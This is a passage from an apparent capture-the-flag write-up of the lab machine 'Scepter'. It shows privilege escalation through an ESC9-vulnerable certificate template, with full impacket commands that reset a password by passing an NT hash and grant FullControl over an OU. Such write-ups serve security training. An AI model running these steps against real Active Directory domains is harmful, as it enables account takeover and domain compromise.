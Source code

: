 ```shell
      ESC9                              : 'SCEPTER.HTB\\staff' can enroll and template has no security extension
```

### Privilege Escalation to h.brown

Luckily for us members of the `STAFF` group could enroll. Therefore we started looking for a target which could grant us access to the box. We found the user `h.brown` which had `CanPSRemote` permissions.

![](images/2025-04-21_22-28_bloodhound_hbrown_canpsremote.png)

We quickly noticed that there was a `cleanup job` in place which forced us to start the `exploitation chain` for this attempt from the very beginning. Therefore we repeated the steps for `privilege escalation` and `lateral movement`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-changepasswd 'scepter.htb'/'a.carter'@10.129.248.205 -reset -altuser 'd.baker' -althash :'18b5fb0d99e7a475316213c15b6f22ce'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

New password: 
Retype new password: 
[*] Setting the password of scepter.htb\a.carter as scepter.htb\d.baker
[*] Connecting to DCE/RPC as scepter.htb\d.baker
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'a.carter' -target-dn 'OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB' 'scepter.htb'/'a.carter':'newpassword' 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250421-225211.bak
[*] DACL modified successfully!
```
